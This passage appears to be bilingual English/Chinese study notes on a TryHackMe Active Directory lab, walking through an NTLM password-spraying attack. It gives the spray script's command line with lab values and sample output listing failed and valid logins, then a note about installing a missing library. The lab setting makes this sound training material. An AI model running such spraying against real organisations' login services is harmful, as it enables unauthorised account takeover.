此函数以我们建议的密码和目标 URL 作为输入，并尝试使用文本文件中的每个用户名对该 URL 进行身份验证。通过监控应用程序返回的 HTTP 响应代码的差异，我们可以判断凭据对是否有效。如果凭据对有效，应用程序将返回 200 HTTP（OK）代码。如果凭据对无效，应用程序将返回 401 HTTP（未授权）代码。

Password Spraying 密码喷洒

If you are using the AttackBox, the password spraying script and usernames textfile is provided under the `/root/Rooms/BreachingAD/task3/` directory. We can run the script using the following command:
如果您使用的是 AttackBox，密码喷洒脚本和用户名文本文件位于 `/root/Rooms/BreachingAD/task3/` 目录下。我们可以使用以下命令运行该脚本：

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

We provide the following values for each of the parameters:
我们为每个参数提供以下值：

- **<userfile>** - Textfile containing our usernames - *"usernames.txt"*
  **<userfile>** - 包含我们用户名的文本文件 - *"usernames.txt"*
- **<fqdn>** - Fully qualified domain name associated with the organisation that we are attacking - *"za.tryhackme.com"*
  **<fqdn>** - 与我们正在攻击的组织关联的完全限定域名 - *"za.tryhackme.com"*
- **<password>** - The password we want to use for our spraying attack - *"Changeme123"*
  **<password>** - 我们想用于喷洒攻击的密码 - *"Changeme123"*
- **<attackurl>** - The URL of the application that supports Windows Authentication - *"http://ntlmauth.za.tryhackme.com"*
  **<attackurl>** - 支持 Windows 身份验证的应用程序的 URL - *"http://ntlmauth.za.tryhackme.com"*

Using these parameters, we should get a few valid credentials pairs from our password spraying attack.
使用这些参数，我们应该能够通过密码喷洒攻击获得一些有效的凭据对。

NTLM Password Spraying Attack NTLM 密码喷洒攻击

```shell-session
[thm@thm]$ python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```

Using a combination of OSINT and NetNTLM password spraying, we now have our first valid credentials pairs that could be used to enumerate AD further!
结合 OSINT 和 NetNTLM 密码喷洒技术，我们现在获得了第一批可用于进一步枚举 AD 的有效凭据对！



脚本依赖的 `requests` 库未安装，Python 找不到该模块导致报错

通过 `pip3 install  安装缺失的库





再次尝试






### task 4


### task 5


### task 6


### task 7


### task 8


### 


